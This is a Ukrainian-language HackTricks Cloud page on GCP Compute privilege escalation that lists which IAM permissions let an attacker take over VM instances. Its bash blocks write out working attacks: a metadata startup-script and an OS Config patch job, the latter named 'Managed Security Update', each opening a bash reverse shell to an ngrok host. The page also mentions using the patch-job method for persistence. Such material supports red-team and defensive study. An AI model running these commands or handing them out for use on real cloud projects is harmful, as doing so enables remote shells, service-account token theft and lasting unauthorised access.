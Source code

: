 # GCP - Compute Privesc

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами у **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

## Compute

Для отримання додаткової інформації про Compute та VPC (мережу) в GCP перевірте:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Зверніть увагу, що для виконання всіх атак на підвищення привілеїв, які вимагають змінити метадані інстансу (наприклад, додавання нових користувачів та SSH ключів), **потрібно мати `actAs` дозволи на SA, прикріплений до інстансу**, навіть якщо SA вже прикріплений!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

З цим дозволом ви можете **змінювати** **метадані** інформації **інстансу** та змінювати **авторизовані ключі користувача**, або **створювати** **нового користувача з sudo** дозволами. Таким чином, ви зможете виконувати SSH в будь-який VM інстанс і викрасти GCP Service Account, з яким працює інстанс.\
Обмеження:

* Зверніть увагу, що GCP Service Accounts, які працюють у VM інстансах, за замовчуванням мають **дуже обмежений обсяг**
* Вам потрібно буде **мати можливість зв'язатися з SSH** сервером для входу

Для отримання додаткової інформації про те, як експлуатувати цей дозвіл, перевірте:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Ви також можете виконати цю атаку, додавши новий startup-script і перезавантаживши інстанс:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Цей дозвіл надає **ті ж привілеї, що й попередній дозвіл**, але для конкретних інстанцій, а не для всього проєкту. **Ті ж експлойти та обмеження, що й у попередньому розділі, застосовуються**.

### `compute.instances.setIamPolicy`

Цей тип дозволу дозволить вам **надати собі роль з попередніми дозволами** та підвищити привілеї, зловживаючи ними.

### **`compute.instances.osLogin`**

Якщо **OSLogin увімкнено в інстанції**, з цим дозволом ви можете просто виконати **`gcloud compute ssh [INSTANCE]`** і підключитися до інстанції. Ви **не матимете root привілеїв** всередині інстанції.

{% hint style="success" %}
Для успішного входу з цим дозволом всередині VM інстанції, вам потрібно мати дозвіл `iam.serviceAccounts.actAs` на SA, прикріплений до VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Якщо **OSLogin увімкнено в інстанції**, з цим дозволом ви можете просто виконати **`gcloud compute ssh [INSTANCE]`** і підключитися до інстанції. Ви матимете **root привілеї** всередині інстанції.

{% hint style="success" %}
Для успішного входу з цим дозволом всередині VM інстанції, вам потрібно мати дозвіл `iam.serviceAccounts.actAs` на SA, прикріплений до VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Можливо **створити віртуальну машину з призначеним Service Account і викрасти токен** цього service account, отримуючи доступ до метаданих для підвищення привілеїв.

Скрипт експлойту для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Якщо у вас є дозволи **`osconfig.patchDeployments.create`** або **`osconfig.patchJobs.exec`**, ви можете створити [**patch job або deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Це дозволить вам переміщатися по середовищу та отримати виконання коду на всіх compute інстанціях у проєкті.

Зверніть увагу, що на даний момент вам **не потрібен дозвіл `astAs`** на SA, прикріплений до інстанції.

Якщо ви хочете вручну експлуатувати це, вам потрібно створити або [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **або** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Для patch job виконайте:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Щоб розгорнути патч-деплоймент:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Інструмент [patchy](https://github.com/rek7/patchy) міг бути використаний у минулому для експлуатації цієї неправильній конфігурації (але зараз він не працює).

**Атакуючий також може зловживати цим для збереження доступу.**

### `compute.machineImages.setIamPolicy`

**Надайте собі додаткові дозволи** до compute Image.

### `compute.snapshots.setIamPolicy`

**Надайте собі додаткові дозволи** до знімка диска.

### `compute.disks.setIamPolicy`

**Надайте собі додаткові дозволи** до диска.

### Обхід Access Scopes

За цим посиланням ви знайдете деякі [**ідеї для спроби обійти access scopes**](../).

### Локальне підвищення привілеїв у GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Посилання

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте за нами на** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
